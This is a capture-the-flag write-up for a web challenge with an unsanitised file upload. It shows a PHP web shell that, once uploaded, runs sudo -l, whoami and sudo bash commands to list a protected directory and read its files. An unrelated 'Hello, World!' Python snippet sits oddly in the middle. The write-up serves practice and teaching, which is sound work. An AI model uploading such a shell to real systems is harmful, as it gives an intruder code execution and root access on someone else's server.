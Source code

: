 # TITLE : n0s4n1ty 1
## Author : Prince Niyonshuti N.
## Description 
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the **/root** directory.
You can access the web application here!
## Hints
- File upload was not sanitized
- Whenever you get a shell on a remote machine, check sudo -l
## Solution
In this challenge, the website allows users to upload a profile picture. However, instead of restricting uploads to images only, it accepts any file type. This is a vulnerability we can exploit.

By uploading a .php file, we can execute arbitrary PHP code on the server. From the hint provided, we know that we can run the sudo -l command, which is a Linux command to list allowed sudo privileges. This implies we can execute system commands through the PHP file.

Below is the PHP script I used:
<pre><code> <?php echo "<pre>"; // Check what sudo commands are allowed echo shell_exec("sudo -l"); // Display current user echo "Current user: " . shell_exec("whoami"); // Try running a command as root echo "Root check: " . shell_exec("sudo whoami"); // Navigate to the challenge directory and list its contents echo shell_exec("sudo bash -c 'cd /challenge && pwd && ls -la && cat config-box.py && cat metadata.json'"); echo "</pre>";
?>
</code></pre>

```python
def hello():
    print("Hello, World!")

hello()
```

From the output of sudo -l, we can determine what commands we're allowed to run with elevated privileges. We also find that there is a /challenge directory in the root, which contains files like metadata.json. By reading that file, we can retrieve the flag.


